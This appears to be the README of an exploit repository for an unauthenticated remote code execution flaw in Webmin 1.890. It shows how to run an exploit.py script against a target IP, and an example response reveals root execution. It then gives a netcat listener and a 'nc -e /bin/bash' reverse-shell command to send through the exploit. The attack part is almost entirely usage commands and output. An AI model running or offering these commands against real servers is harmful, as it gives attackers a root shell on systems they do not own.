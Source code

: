 # WebMin-1.890-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>
# USAGE:
```bash
$ python3 exploit.py [TARGET IP] [COMMAND]
#EXAMPLE
$ python3 exploit.py 127.0.0.1 whoami

```
```bash
#RESPONSE
<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```
<br>
<h4>before running script start listener for connection in your machine</h4>
<code>nc -nvlp [LPORT]</code> 
<br><h4>run script</h4>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> 
